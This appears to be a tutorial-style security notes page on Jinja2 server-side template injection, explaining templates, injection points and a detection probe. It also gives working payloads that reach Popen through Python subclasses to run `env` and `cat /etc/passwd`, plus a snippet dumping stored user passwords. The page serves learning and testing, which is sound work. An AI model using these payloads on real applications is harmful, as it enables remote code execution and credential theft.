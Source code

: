 ```yaml
---
description: Jinja2 Server Side Template Injection
---
```


# Jinja2 SSTI

{% embed url="https://www.youtube.com/watch?v=Ffeco5KB73I" %}

### <mark style="color:yellow;">What are templates?</mark>

A **template** is a file or string that contains both static text and special placeholders that get replaced with real data when generating the final content.

#### We can have a template like:

```python
Hello {{ name }}!
```

With `name = "Alice"`, it becomes:

```python
Hello Alice!
```

{% hint style="warning" %}
Jinja2 is a popular template engine used in Python web applications. It offers great flexibility and powerful features for rendering templates. However, if user input is not properly validated and escaped, Jinja2 can be vulnerable to Server-Side Template Injection (SSTI) attacks.
{% endhint %}

### <mark style="color:yellow;">Looking for injection points</mark>

| Entry point       | Description                                                                           |
| ----------------- | ------------------------------------------------------------------------------------- |
| User Input Fields | Inputs like textboxes, search bars, or comment sections where users can enter data.   |
| URL parameters    | Values passed in the URL query string or as part of the path that can be manipulated. |
| HTTP-Header       | Headers such as `User-Agent` or `Referer` that may contain user-supplied data.        |
| Cookies           | Data stored in browser cookies that users can tamper with.                            |
| Form Data         | Data submitted through web forms that might be used in templates.                     |
| File Uploads      | Uploaded files that may be processed by the template engine, posing a security risk.  |
| Database Queries  | Dynamic content retrieved from the database that could include unsafe user input.     |

For the Jinja templates check for vulnerablity with `{{7*'7'}}` , if the output show 49 its vulnerable.

### <mark style="color:yellow;">SSTI Exploration</mark>

Server Side Template Injections (SSTI) vulnerabilities can happen when an attacker can modify the template code before it being rendered by the template engine. When running in sandboxed enviroments and keywords are blocked we can still check for:

* `{{ dict }}`: Class object of the dictionary.
* `{{ request }}`: Object containing request information.
* `{{ config }}`:

In python variables are objects and those objects internal functions, they start with \_\_ and end with \_\_. If you would look at the `int` functions with `dir()` like `dir(int(0))` you will see:

* `__add__` — used when you do `1 + 2`
* `__str__` — used when you do `str(5)` (for printing)
* `__repr__` — used for representing the object in code (`repr(5)`)

#### Using classes like Popen to execute code

In case of using editor print like

```python
print(render_template_string("{{ [].__class__.__base__.__subclasses__()[317]('env', shell=True, stdout=-1).communicate()[0].strip() }}"))
```

```python
# Check base class
{{ [].__class__.__base__ }}

# List sublasses
{{ [].__class__.__base__.__subclasses__() }}

# Return class of index
{{ [].__class__.__base__.__subclasses__()[422] }}

# If you found index of subclass.Popen, call it and get RCE.
{{ [].__class__.__base__.__subclasses__()[422](‘cat /etc/passwd’,shell=True,stdout=-1).communicate()[0].strip() }}
```

### <mark style="color:yellow;">Acces database</mark>

Not SSTI specific but with python get users and passwords

```python
for user in User.query.all():
    print(user.__dict__)
```
